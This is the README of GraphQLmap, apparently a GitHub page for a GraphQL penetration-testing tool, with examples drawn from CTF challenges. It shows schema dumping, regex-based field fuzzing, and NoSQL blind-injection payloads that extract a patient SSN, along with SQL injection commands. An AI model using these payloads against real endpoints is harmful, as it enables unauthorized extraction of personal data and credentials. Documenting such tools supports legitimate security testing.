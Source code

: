 # GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.


* [Install](#install)
* [Features and examples](#features-and-examples)
  - [Dump a GraphQL schema](#dump-a-graphql-schema)
  - [Interact with a GraphQL endpoint](#interact-with-a-graphql-endpoint)
  - Execute GraphQL queries
  - Autocomplete queries
  - [GraphQL field fuzzing](#graphql-field-fuzzing)
  - [NoSQL injection inside a GraphQL field](#nosql-injection)
  - [SQL injection inside a GraphQL field](#sqli-injection)

I :heart: pull requests, feel free to improve this script :)

You can also contribute with a :beers: IRL or using Github Sponsoring button.

## Install

```basic
$ git clone github.com/swisskyrepo/GraphQLmap
$ python graphqlmap.py                                                              
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                                         Author:Swissky Version:1.0
usage: graphqlmap.py [-h] [-u URL] [-v [VERBOSITY]] [--method [METHOD]]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             URL to query : example.com/graphql?query={}
  -v [VERBOSITY]     Enable verbosity
  --method [METHOD]  HTTP Method to use interact with /graphql endpoint
```


## Features and examples

:warning: Examples are based on several CTF challenges from HIP2019.

### Dump a GraphQL schema

Use `dump` to dump the GraphQL schema, this function will automaticly populate the "autocomplete" with the found fields.    
[:movie_camera: Live Example](https://asciinema.org/a/14YuWoDOyCztlx7RFykILit4S)

```powershell
GraphQLmap > dump                     
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)                   
                                                                                               
Query                                          
        doctor[]: email (String!),                                                             
        doctors[Doctor]:                                                                       
        patients[Patient]:                                                                     
        patient[]: id (ID!),                   
        allrendezvous[Rendezvous]:                                                             
        rendezvous[]: id (ID!),                                                                
Doctor                                         
        id[ID]:                                                                                
        firstName[String]:                     
        lastName[String]:                                                                      
        specialty[String]:                     
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
[...]
```


### Interact with a GraphQL endpoint

Write a GraphQL request and execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

### GraphQL field fuzzing

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.      
[:movie_camera: Live Example](https://asciinema.org/a/ICCz3PqHVNrBf262x6tQfuwqT)

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}     
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

### NoSQLi injection

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.    
[:movie_camera: Live Example](https://asciinema.org/a/wp2lixHqRV0pxxhZ8nsgUj6s7)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
```

### SQL injection 

```powershell
GraphQLmap > postgresqli
GraphQLmap > mysqli
GraphQLmap > mssqli
```


## TODO

* Docker with vulnerable GraphQL
* Unit tests
* Handle node
```
{
  user {
    edges {
      node {
        username
      }
    }
  }
}
```
